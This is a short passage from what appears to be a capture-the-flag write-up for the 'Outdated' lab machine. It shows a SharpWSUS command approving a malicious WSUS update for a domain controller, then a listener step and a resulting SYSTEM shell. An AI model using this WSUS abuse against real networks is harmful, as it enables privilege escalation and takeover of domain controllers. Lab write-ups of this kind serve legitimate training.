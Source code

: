 - Approve the update:

```bash
.\SharpWSUS.exe approve /updateid:8a4c761a-4c52-4130-b987-ee1d2cd54b3d /computername:dc.outdated.htb, /groupname:"Important Group1"

```

![image51](../resources/6816974cd7704c378ed7fcfdb8049c8b.png)

- Setup a listener and wait

- And we get a shell as SYSTEM:

![image52](../resources/b8c896702c07444f8b0816c1313e122f.png)